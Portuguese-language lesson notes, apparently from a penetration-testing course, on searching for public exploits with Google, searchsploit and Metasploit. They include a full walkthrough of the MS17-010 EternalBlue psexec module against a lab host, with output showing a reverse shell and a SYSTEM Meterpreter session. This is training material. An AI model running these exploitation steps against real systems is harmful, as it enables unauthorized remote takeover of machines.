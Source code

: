 Depois de enumerar o sistema usando nmap, o primeiro passo é procurar exploits públicos da versão do serviço em questão

Obviamente, a maior quantidade de exploits públicos que você pode encontrar está no mecanismo de busca do google, pesquisar o sistema e serviço seguido da palavra exploit vai te fornecer várias alternativas e.g:`windows 7 smb exploit`

Searchsploit é uma ferramenta de busca na CLI especifica para busca de exploits

`sudo apt install exploitdb -y`

`searchsploit smb 1.0`

## Metasploit
Ferramenta paa busca e execução de exploits, é usado para reconhecimento do host, teste de vulnerabilidade sem invadir o alvo, conexão de shell para usar comandos no alvo e execução de exploits

`msfconsole`
dentro do msf:
```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```
Para usar o exploit:
`use <id> 4 ou exploit/windows/smb/ms17_010_psexec`
Para alterar algum configuração usamo `set <config>` config pode ser o host remoto (RHOST) host local (LHOST), payload

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

para verificar se o alvo é vulnerável

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

[Próxima aula](9_priv-esc.md)